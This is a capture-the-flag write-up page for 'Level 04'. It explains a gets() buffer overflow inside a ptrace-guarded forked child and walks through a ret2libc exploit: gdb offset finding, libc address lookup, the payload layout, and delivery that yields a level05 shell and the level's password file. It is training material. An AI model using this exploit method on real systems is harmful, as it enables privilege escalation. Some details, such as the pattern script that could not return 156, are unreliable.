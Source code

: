 ```yaml
---
sidebar_position: 6
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🧼 Level 04

<MissionObjective 
  level="Level 04"
  target="level05 privileges"
  method="ret2libc buffer overflow with anti-debugging bypass"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Stack-based Buffer Overflow with Protection Bypass"
  severity="high"
  description="Classic buffer overflow in gets() function within a forked child process. The parent uses ptrace() to prevent exec() calls, requiring ret2libc technique instead of shellcode injection."
  techniques={[
    "Buffer Overflow",
    "ret2libc Attack", 
    "Fork Analysis",
    "Anti-Debug Bypass"
  ]}
/>

## Binary Behavior Analysis

<CodeBlock 
  title="Program Architecture"
  command="# Binary execution flow"
  output={`1. Program forks into parent and child processes
2. Parent: Uses ptrace() to monitor child and prevent exec()
3. Child: Reads input using gets() - VULNERABLE TO OVERFLOW
4. Anti-shellcode: Any execve attempt is detected and blocked`}
/>

**Key Security Features:**
- **Fork-based isolation**: Child process handles user input
- **Ptrace monitoring**: Parent prevents direct shellcode execution
- **Gets() vulnerability**: No bounds checking on input buffer

## Strategy: ret2libc Attack

<CodeBlock 
  title="Attack Methodology"
  command="# Why ret2libc instead of shellcode"
  output={`Traditional shellcode with execve() → BLOCKED by ptrace()
ret2libc technique → Reuses existing libc functions
Goal: system("/bin/sh") + exit() + proper arguments`}
/>



## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/bEHYk4fnHUb3qqFHwEDwbYKkD.js" 
  id="asciicast-bEHYk4fnHUb3qqFHwEDwbYKkD" 
/>

## Step 1: Finding EIP Offset

<CodeBlock 
  title="GDB Setup for Fork Analysis"
  command="gdb ./level04"
  output={`(gdb) set follow-fork-mode child
(gdb) run`}
/>



<StepsList
  title="Buffer Overflow Analysis"
  steps={[
    {
      title: "Generate Pattern",
      description: "Create a unique pattern to identify exact overflow offset",
      command: "# Input long pattern string",
      result: "AAAABBBBCCCCDDDD...nnnn..."
    },
    {
      title: "Crash Analysis",
      description: "Identify which part of pattern overwrites EIP",
      command: "EIP = 0x6e6e6e6e ('nnnn')",
      result: "Pattern offset calculation needed"
    },
    {
      title: "Calculate Offset",
      description: "Find exact position where EIP gets overwritten",
      command: "pattern.find('nnnn')",
      result: "Offset = 156 bytes"
    }
  ]}
/>

## Step 2: Gathering libc Addresses

<CodeBlock 
  title="Dynamic Address Resolution"
  command="(gdb) info functions"
  output={`(gdb) info functions system
system@plt = 0xf7e6aed0

(gdb) info functions exit  
exit@plt = 0xf7e5eb70

(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec`}
/>

**Critical Addresses:**
- `system()`: `0xf7e6aed0`
- `exit()`: `0xf7e5eb70` 
- `"/bin/sh"`: `0xf7f897ec`

## Step 3: Payload Construction

<CodeBlock 
  title="ret2libc Payload Structure"
  command="# Payload layout"
  output={`[Padding: 156 bytes] + [system addr] + [exit addr] + ["/bin/sh" addr]
[    Buffer fill    ] + [  EIP->sys  ] + [return addr] + [ argument  ]`}
/>

<CodeBlock 
  title="Payload Generation"
  command='python -c "print A*156 + system_addr + exit_addr + binsh_addr"'
  output={`Payload breakdown:
- "A"*156: Fill buffer until EIP
- system_addr: system() address (little-endian)
- exit_addr: exit() return address  
- binsh_addr: "/bin/sh" argument`}
/>

## Step 4: Exploitation

<CodeBlock 
  title="Payload Delivery"
  command="cat /tmp/payload - | ./level04"
  output={`$ whoami
level05
$ cat /home/users/level05/.pass
[SUCCESS - Next level password revealed]`}
/>

## Technical Deep Dive

### Fork Protection Analysis

<CodeBlock 
  title="Process Architecture"
  command="# Understanding the protection mechanism"
  output={`Parent Process:
- Monitors child with ptrace()
- Blocks any exec() system calls
- Waits for child completion

Child Process:  
- Handles user input via gets()
- Vulnerable to buffer overflow
- Cannot execute new binaries (exec blocked)`}
/>

### ret2libc vs Shellcode

:::tip **Why ret2libc Works**
- **No New Process**: Reuses existing process memory
- **Library Functions**: Uses already-loaded libc functions
- **Ptrace Evasion**: No exec() calls to trigger protection
- **Clean Execution**: Proper function calling convention
:::

## Offset Calculation Script

<CodeBlock 
  title="Pattern Generation Tool"
  command="python"
  output={`pattern = "".join([
    f"{a}{b}{c}{d}"
    for a in "ABCDEFGHIJKLMNOPQRSTUVWXYZ" 
    for b in "abcdefghijklmnopqrstuvwxyz"
    for c in "0123456789"
    for d in "0123456789"
])

print(pattern.find("nnnn"))  # Output: 156`}
/>

## Key Learning Points

:::warning **Anti-Debug Considerations**
- **Fork Complexity**: Must follow child process in debugger
- **Dynamic Addresses**: ASLR requires runtime address resolution
- **Payload Delivery**: Interactive input needed (cat - technique)
- **Protection Bypass**: Understanding why ret2libc works when shellcode fails
:::

## Technical Summary

This level demonstrates:
1. **Advanced Buffer Overflow** - Beyond simple shellcode injection
2. **Process Architecture Analysis** - Understanding fork/ptrace protection
3. **ret2libc Technique** - Function reuse instead of code injection  
4. **Dynamic Analysis** - Runtime address resolution and debugging
5. **Protection Bypass** - Working around modern security measures

The vulnerability showcases how even protected binaries can be exploited through creative techniques that work within the constraints of the security mechanisms.